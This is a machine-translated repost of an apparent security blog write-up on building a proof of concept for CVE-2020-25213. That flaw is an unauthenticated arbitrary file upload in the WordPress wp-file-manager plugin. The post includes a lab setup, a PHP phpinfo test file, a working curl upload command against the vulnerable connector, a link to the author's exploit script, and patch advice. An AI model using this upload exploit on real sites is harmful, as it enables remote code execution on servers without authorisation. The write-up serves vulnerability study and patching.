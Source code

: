 # 剥削 CVE-2020–25213:WP-文件-管理器 wordpress 插件(<6.9) for unauthenticated arbitrary file upload

> 原文：<https://infosecwriteups.com/exploiting-cve-2020-25213-wp-file-manager-wordpress-plugin-6-9-3f79241f0cd8?source=collection_archive---------0----------------------->

![](img/99267f2a0aef0e2e7420bed17c07f4b3.png)

Hello everyone!!

**Mansoor(@time4ster)** 在此。这是我对信息安全社区的第一次贡献，我希望你会喜欢这篇文章。

对于漏洞代码，你可以直接访问我的 github [回购](https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213)。

**免责声明 **

我没有发现这个漏洞&也没有从这个 CVE 身上得到任何荣誉。我只是在分析了各种博客(如 [wordfence](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/) 、 [seravo](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/) )上的描述后创建了这个漏洞，其座右铭是让读者了解如何通过分析漏洞的描述来创建 POC。

我对使用该漏洞给组织造成的任何损失不负任何责任&我建议读者在没有组织书面同意的情况下不要利用该漏洞，因为它可能会使组织暴露于其他黑客的攻击之下。

# 关于漏洞:

[**CVE-2020–25213**](https://nvd.nist.gov/vuln/detail/CVE-2020-25213):WordPress 6.9 之前的文件管理器(wp-file-manager)插件允许远程攻击者上传并执行任意 PHP 代码，因为它将一个不安全的示例 elFinder 连接器文件重命名为具有。php 扩展。例如，这使得攻击者能够运行 elFinder upload(或 mkfile 和 put)命令，将 PHP 代码写入 WP-content/plugins/WP-file-manager/lib/files/目录。这是 2020 年 8 月和 9 月在野外开采的。

**CVSS:** **9.8**

# 发生了什么事？

在 8 月的最后一周，该漏洞开始作为零日被利用。9 月 1 日，插件开发者修补了漏洞&发布了版本 **6.9。**补丁发布后，各种组织如 [wordfence](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/) 、 [seravo](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/) &还有一些组织发表了博客，描述 wp-file-manager zero day &如何在野外被利用的细节。

# 设置环境

1.  在虚拟机(或本地主机)上安装 wordpress。在 ubuntu 上安装 wordpress 可以参考这个[站点](https://ubuntu.com/tutorials/install-and-configure-wordpress#1-overview)。

2.从[这里](https://downloads.wordpress.org/plugin/wp-file-manager.6.0.zip)下载并安装易受攻击的 WP-文件管理器插件(版本 6.0)。

3.安装 El finder[可选]

# 创建漏洞

wp-file-manager 插件使用的 **elFinder 的**库的*/WP-content/plugins/WP-file-manager/lib/PHP/connector . minimal . PHP*文件负责上传任何给定扩展名的任意文件(未经验证)。

为了理解 elFinder 如何上传文件，让我们首先在 localhost 上下载并配置 elFinder。

```
git clone [https://github.com/Studio-42/elFinder.git](https://github.com/Studio-42/elFinder.git)
mv elFinder/php/connector.minimal.php-dist elFinder/php/connector.minimal.php
chown -R www-data:www-data elFinder/
```

在访问 */elFinder.html* 时，显示文件管理器菜单，包括文件上传选项:

![](img/b220696cc14ffdddc898058ac5c8c0f0.png)

现在，我们将上传任何图像文件，并在 burp 套件中监控请求。

在 burp suite 中，POST 请求被发送到*/El finder/PHP/connector . minimal . PHP*&作为响应，位置被反映为文件上传的位置。

![](img/c39338d8f79270399bc4011f06133946.png)

现在我们将把*/El finder/PHP/connector . minimal . PHP*替换为*/WordPress/WP-content/plugins/WP-file-manager/lib/PHP/connector . minimal . PHP*【我们的 wordress 站点中的插件位置】&看看我们是否能够上传文件？

我们能够上传文件太好了！！这意味着现在我们可以上传任意扩展名的任意文件。

为了上传 php 文件，在上面的请求中(改变 URL 之后),我们需要将文件名改为 poc_PHPinfo.php，其内容为

```
<?php 
echo “POC By Time4ster”;
phpinfo(); 
?>
```

&耶！！PHP 文件被上传，URL 也显示在文件上传的响应中。

![](img/c318dd0bc407130bc17e69bf08bb8ab8.png)

上传的文件可以在:[http://192 . 168 . 1 . 54/WordPress/WP-content/plugins/WP-file-manager/lib/files/POC _ phpinfo . PHP](http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/files/poc_PHPinfo.php)

![](img/94270b3a6e8392d6fec37e489dfd3c02.png)

上述打嗝要求的等效卷曲有效载荷:

```
curl -ks — max-time 5 — user-agent “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.90 Safari/537.36” -F “reqid=17457a1fe6959” -F “cmd=upload” -F “target=l1_Lw” -F “mtime[]=1576045135” -F “upload[]=@//root/poc_PHPinfo.php” “[http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php](http://192.168.1.54/wordpress/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php)"
```

这里的 */root/poc_PHPinfo.php* 文件可以替换为我们想要上传到服务器上的任意文件。

**注意:**有时候 php 文件会被防火墙拦截，所以最好先上传 txt 文件来确认漏洞。

还要注意，上传的文件可以被任何未经认证的用户访问(在 php 中为& executed ),所以上传文件时要小心。

# 剥削

我创建的 Bash 漏洞利用代码:

[https://github . com/manso or 123/WP-file-manager-CVE-2020-25213](https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213)

# 影响

利用此漏洞，攻击者可以上传 php 文件并在目标上执行文件，而无需任何身份验证，从而导致机器完全受损。(CVSS: 9.8 分)。

wp-file-manager 有 600，000 多个活跃安装，其中只有 53.3%的用户在撰写本文时升级到了最新的插件版本 6.9。

![](img/d8ae0b9ca0ae186846605c7d245dace9.png)

来源:https://wordpress.org/plugins/wp-file-manager/advanced/

# 修补

从[厂商网站](https://wordpress.org/plugins/wp-file-manager/)升级到 wp-file-manager 的最新版本(版本≥6.9)。

# 时间表

上周 8 月:漏洞作为零日开始被利用。

9 月 1 日:厂商发布补丁。

9 月 2 日:各种博客发布描述这个零日&漏洞的细节。

9 月 4 日:在研究了漏洞之后，创建了我的 bash 漏洞利用脚本。

9 月 9 日:CVE 2020–25213 被分配到这个零日利用。

# 信用

1.  [https://www . word fence . com/blog/2020/09/700000-WordPress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/](https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/)
2.  [https://seravo . com/blog/0-day-vulnerability-in-WP-file-manager/](https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/)

感谢您阅读这篇文章。如果你喜欢我的报道，请点击**👏与你的朋友分享，这将鼓励我在未来发表更多的 Infosec 文章。**